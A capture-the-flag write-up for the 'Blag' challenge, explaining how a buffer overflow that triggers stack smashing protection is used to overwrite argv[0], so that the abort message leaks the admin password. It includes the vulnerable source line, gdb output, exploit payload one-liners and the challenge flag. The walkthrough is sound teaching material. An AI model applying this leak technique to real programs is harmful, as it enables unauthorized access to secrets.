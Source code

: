 # Blag (180 points)


###Problem overview:

  You're given a binary for a blog server that has a bug. You must exploit this bug to get the flag out of the admin's post, which the server won't let you read under normal circumstances.
  
###The process:
   I'll have to admit, this one had me stumped until the last two hours of the competition
I spent probably 5 or 6 hours in total looking at the source. I found the initial buffer overflow within about 10 minutes, but I didn't know what to do with it.
   
```C
52:  readline(buf,sizeof(p->body),stdin); //buffer overflow 320 -> 32
```
   
Despite my initial hopes, this buffer overflow proved to be useless (or did it?) due to   ProPolice Stack Smashing Protection (SSP). I'm sure a lot of you saw this:
```
*** stack smashing detected ***: ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42 terminated
```
   
   
  I gave up on this problem on the first day and came back to it with ~4 hours left in the competition. My teammates and I combed through the source again, and we concluded that the aforementioned buffer overflow was the only vulnerability in the program. I tried to overflow the buffer again, but this time with the full overflow size (320 bytes), and this time I got somthing interesting

```
$ python -c 'print "add\n" + "a\n" +"a\n" + "A"*320 + "\n"' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42

...
...


Segmentation fault (core dumped)
```

  For those of you who looked at the disassembly of the functions, this should surprise you. If the stack canary is not preserved (AKA if you overflow),then the program calls another function that aborts the program. This means that the segfault above has to have occurred somewhere in SSP's own code. Armed with this information, I got my google-fu on.
  
  I found [this pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf) from Dragon Sector, a collegiate/professional CTF team. Incidentally, it also has the solution to [oneshot](oneshot_170_pts.md) in it. As it turns out, the error message from above gets the name of the program from the `argv` variable. We can overflow the pointer to this with the pointer to some other random string that we need. Namely the admin password.
  
```
$ gdb -q ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
Reading symbols from ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42...(no debugging symbols found)...done.
gdb-peda$ p &adminpassword
$1 = (<data variable, no debug info> *) 0x804b080 <adminpassword>
gdb-peda$ q
$ $ python -c 'print "add\na\na\n"+"\x80\xb0\x04\x08"*76' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
...
...
*** stack smashing detected ***: meme terminated
```

I picked 'meme' as my local admin password, but if you tried it remotely you would get the real admin password. From there you can just authorize yourself and get the flag!!

pwned.
##Flag
`tjctf{I_h3aRd_ab0u7_1t_oN_th3_1nterBlag!}`


